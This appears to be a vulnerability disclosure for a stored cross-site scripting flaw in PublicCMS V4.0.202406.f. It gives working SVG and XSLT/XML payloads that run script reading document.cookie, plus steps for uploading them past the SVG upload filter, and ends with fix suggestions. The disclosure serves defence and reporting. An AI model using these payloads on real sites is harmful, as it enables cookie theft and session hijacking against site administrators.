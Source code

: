 ## Vulnerability Author: 

c0rdXy

## Affected Version: 

PublicCMS V4.0.202406.f

![image-20250108151648112](XSS_02.assets/image-20250108151648112.png)

## Vendor:

www.publiccms.com

https://github.com/sanluan/PublicCMS

https://github.com/sanluan/PublicCMS/releases

## Vulnerability File:

com/publiccms/controller/admin/cms/CmsWebFileAdminController.java

## Vulnerability Description:

PublicCMS V4.0.202406.f was discovered to contain a cross-site scripting (XSS) vulnerability via a crafted script to the Category Managment feature

## Vulnerability hazards

After a successful attack using XSS code, malicious users may get high permissions. The XSS vulnerability mainly has the following hazards:

1. Steal various user accounts;
2. Steal the user's Cookie information, impersonate the user's identity to enter the website;
3. Hijack user sessions and perform arbitrary operations; Refers to operating the user's browser;
4. Brush stream display, execution of commercial advertising;
5. Spread worms;
6. And so on...

## Payload_1

### svg

Open the Website File Management function point in the File ribbon and click the Create File button.

![image-20250109143352386](XSS_02.assets/image-20250109143352386.png)

Create an svg file, enter the following content, and save it.

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900"
stroke="#004400"/>
<script type="text/javascript">alert(document.cookie);</script>
</svg>
```

![image-20250109143420194](XSS_02.assets/image-20250109143420194.png)

Same reason.

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900"
stroke="#004400"/>
<script type="text/javascript">alert('XSS');</script>
</svg>
```

![image-20250109143501337](XSS_02.assets/image-20250109143501337.png)

Click the View button.

![image-20250109143612532](XSS_02.assets/image-20250109143612532.png)

The XSS vulnerability is successfully triggered and the current cookie information is obtained.

![image-20250109143620956](XSS_02.assets/image-20250109143620956.png)

![image-20250109143629028](XSS_02.assets/image-20250109143629028.png)

### xml

Similarly, upload the xml file and put the following code in respectively. Note that two xml files need to be uploaded here.

The first xml file.

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<html><body>
<script>alert(document.cookie);</script>
</body></html>
</xsl:template>
</xsl:stylesheet>
```

![image-20250109143730317](XSS_02.assets/image-20250109143730317.png)

In the second XML file, put the URL of the first XML file in the href attribute.

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<?xml-stylesheet type="text/xsl" href="http://127.0.0.1:8080/webfile/1.xml"?>
<test></test>
```

![image-20250109143801740](XSS_02.assets/image-20250109143801740.png)

At this time, click to view the second XML file and successfully trigger the XSS vulnerability.

![image-20250109143840042](XSS_02.assets/image-20250109143840042.png)

Same reason.

![image-20250109143927869](XSS_02.assets/image-20250109143927869.png)

![image-20250109143936838](XSS_02.assets/image-20250109143936838.png)

![image-20250109143944942](XSS_02.assets/image-20250109143944942.png)

## Payload_2

Click the Upload File button.

![image-20250109151630058](XSS_02.assets/image-20250109151630058.png)

When trying to upload an svg file, it says the file is unsafe and cannot be uploaded.

![image-20250109151704662](XSS_02.assets/image-20250109151704662.png)

At this point we try to upload the xml file and it is uploaded successfully.

![image-20250109151751847](XSS_02.assets/image-20250109151751847.png)

![image-20250109151813694](XSS_02.assets/image-20250109151813694.png)

We continue to upload the second XML file and then check it. The XSS vulnerability is successfully triggered.

![image-20250109151842024](XSS_02.assets/image-20250109151842024.png)

![image-20250109151857809](XSS_02.assets/image-20250109151857809.png)

## Modification suggestion

* It is recommended to encode the input and output parameters in an entity format.
* It is recommended that you do not enable the online viewing function for svg and xml, and click to view the source file directly.
* It is recommended to prohibit illegal file uploading.
